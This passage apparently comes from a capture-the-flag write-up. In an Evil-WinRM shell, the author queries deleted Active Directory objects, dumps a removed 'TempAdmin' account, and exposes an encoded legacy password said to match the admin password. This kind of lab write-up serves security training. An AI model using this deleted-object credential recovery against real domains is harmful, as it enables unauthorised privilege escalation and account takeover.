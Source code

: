 The last one is really interesting, because it's the temporary
administer account mentioned in the old email I found earlier (which
also said it was using the same password as the normal admin account).

I can get all the details for that account:



    *Evil-WinRM* PS C:\> Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *


    accountExpires                  : 9223372036854775807
    badPasswordTime                 : 0
    badPwdCount                     : 0
    CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                      DEL:f0cc344d-31e0-4866-bceb-a842791ca059
    cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
    CN                              : TempAdmin
                                      DEL:f0cc344d-31e0-4866-bceb-a842791ca059
    codePage                        : 0
    countryCode                     : 0
    Created                         : 1/27/2020 3:23:08 AM
    createTimeStamp                 : 1/27/2020 3:23:08 AM
    Deleted                         : True
    Description                     :
    DisplayName                     : TempAdmin
    DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
    dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
    givenName                       : TempAdmin
    instanceType                    : 4
    isDeleted                       : True
    LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
    lastLogoff                      : 0
    lastLogon                       : 0
    logonCount                      : 0
    Modified                        : 1/27/2020 3:24:34 AM
    modifyTimeStamp                 : 1/27/2020 3:24:34 AM
    msDS-LastKnownRDN               : TempAdmin
    Name                            : TempAdmin
                                      DEL:f0cc344d-31e0-4866-bceb-a842791ca059
    nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
    ObjectCategory                  :
    ObjectClass                     : user
    ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
    objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
    primaryGroupID                  : 513
    ProtectedFromAccidentalDeletion : False
    pwdLastSet                      : 132245689883479503
    sAMAccountName                  : TempAdmin
    sDRightsEffective               : 0
    userAccountControl              : 66048
    userPrincipalName               : TempAdmin@cascade.local
    uSNChanged                      : 237705
    uSNCreated                      : 237695
    whenChanged                     : 1/27/2020 3:24:34 AM
    whenCreated                     : 1/27/2020 3:23:08 AM
